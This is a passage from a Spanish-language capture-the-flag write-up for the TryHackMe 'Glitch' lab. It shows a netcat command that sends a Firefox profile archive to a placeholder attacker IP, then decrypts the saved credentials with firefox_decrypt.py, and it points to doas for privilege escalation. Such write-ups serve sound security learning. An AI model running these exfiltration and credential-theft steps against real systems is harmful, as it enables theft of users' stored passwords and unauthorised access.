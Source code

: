 Nos traemos a nuetra máquina atacante. Para copiar a nuestra maquina usaremos `nc`, haciendo lo siguiente

- Atacante
```java
❯ nc -lnvp 8888 > firefox.tar.gz
```

- Victima
```java
user@ubuntu:/tmp$ nc [IP-ATTACKER] 8888 -w 3 < firefox.tar.gz
```
Haciendo uso de [firefox_decrypt.py](https://github.com/unode/firefox_decrypt) podemos desencriptar las credenciales

```
❯ python3 firefox_decrypt.py /home/b0ysie7e/seven/tryhackme/maquinas/Glitch/content/.firefox/b5w4643p.default-release
2023-11-08 11:39:09,183 - WARNING - profile.ini not found in /home/b0ysie7e/seven/tryhackme/maquinas/Glitch/content/.firefox/b5w4643p.default-release
2023-11-08 11:39:09,183 - WARNING - Continuing and assuming '/home/b0ysie7e/seven/tryhackme/maquinas/Glitch/content/.firefox/b5w4643p.default-release' is a profile location

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'

```
### Usuario V0id

Haciendo uso de las credenciales podemos logueanos como el usuario `v0id`

En la pista nos dice que `sudo is bloat.`. Buscando algo de información nos damos con el siguiente post de [exploit-notes.hdks.org](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)

### Usuario root

Abusando de las congifuraciones podemos ejecutar comandos con `doas`

![20231108115645.png](20231108115645.png)

¡VAMOS!

**Happy hacking**